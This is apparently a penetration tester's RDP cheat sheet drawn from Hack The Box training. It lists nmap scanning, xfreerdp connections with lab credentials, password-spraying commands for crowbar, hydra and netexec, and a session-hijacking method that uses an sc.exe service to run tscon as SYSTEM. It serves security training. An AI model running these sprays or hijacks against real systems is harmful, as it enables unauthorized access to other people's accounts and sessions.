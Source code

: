 ##### Scanning
```bash
nmap -sV -sC $ip -p3389 --script rdp*
```
##### Connecting
```bash
xfreerdp3 /v:$ip /u:htb-rdp /p:'HTBRocks!' /dynamic-resolution /drive:OP,/home/adot/opt

xfreerdp /u:Adot /v:WinDot /dynamic-resolution /drive:OP,/home/adot/opt /multimon

xfreerdp /u:user /p:"P455w0rd!" /v:$ip
rdesktop $ip
```
##### Password Spraying
```bash
crowbar -b rdp -s $ip/32 -U users.txt -c 'password123'
hydra -L usernames.txt -p 'password123' $ip rdp
netexec rdp $ip -u users.txt -p 'password123'
```
##### EDR Evaison
```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl $ip
```

#### [Pass-The-Hash](obsidian://open?vault=Penetration%20Testing&file=Root%2FActive%20Directory%2FPass-the-Hash)
Explained Here 

The [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a protocol developed by Microsoft for remote access to a computer running the Windows operating system. This protocol allows display and control commands to be transmitted via the GUI encrypted over IP networks. RDP works at the application layer in the TCP/IP reference model, typically utilizing TCP port 3389 as the transport protocol. However, the connectionless UDP protocol can use port 3389 also for remote administration

### Session Hijacking
As shown in the example below, we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges. Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-1-2.png)

```powershell
query user
```
To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session).

```powershell
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

We can create a service that will run tscon as **SYSTEM**
```powershell
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```
![[Pasted image 20250120065528.png]]